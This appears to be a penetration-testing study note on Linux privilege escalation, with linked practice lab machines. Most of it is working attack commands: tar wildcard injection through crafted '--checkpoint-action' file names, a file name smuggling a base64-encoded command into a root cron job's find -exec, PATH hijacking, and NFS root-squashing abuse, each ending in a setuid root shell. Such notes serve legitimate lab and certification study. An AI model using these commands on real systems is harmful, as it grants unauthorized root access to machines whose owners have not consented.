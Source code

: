 Tar wildcards: 
```bash
# Example:
tar czf /tmp/backup.tar.gz *

# Exploitation
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh\ runme.sh
chmod +x /home/user/runme.sh

# Become root
/tmp/bash -p
```

Verify what the cronjob does:
- writable file? --> overwrite original file
- What version of a program is being ran? eg. [[Exfiltrated]]

Abuse curly brackets in find -exec command:
```bash
# Cron job file
find /dev/shm -type f -exec sh -c 'rm {}' \;

# Payload
echo "chmod u+s /bin/bash" |base64
Y2htb2QgdStzIC9iaW4vYmFzaAo=
echo "" > '$(echo "Y2htb2QgdStzIC9iaW4vYmFzaAo=" |base64 -d|bash)'
```
- https://medium.com/@ardian.danny/oscp-practice-series-10-proving-grounds-assignment-bffe4418b168
- [[Assignment]]


### PATH variable

If we have write permissions on a folder in the PATH variable we can look for root jobs that are running without the full specified path:
- [[Roquefort]]


### NFS Root Squashing

```bash
# Discover mount
cat /etc/exports

# Mount share (on kali)
sudo apt install nfs-common
mkdir /tmp/trial
mount -t nfs -o rw,vers=3 <IP>:/tmp/ /tmp/trial

# Copy /bin/bash to share (on target)
cp /bin/bash .

# Make root owned and add sticky bit (on kali)
chown root bash
chmod +s bash

# Become root
./bash -p
```
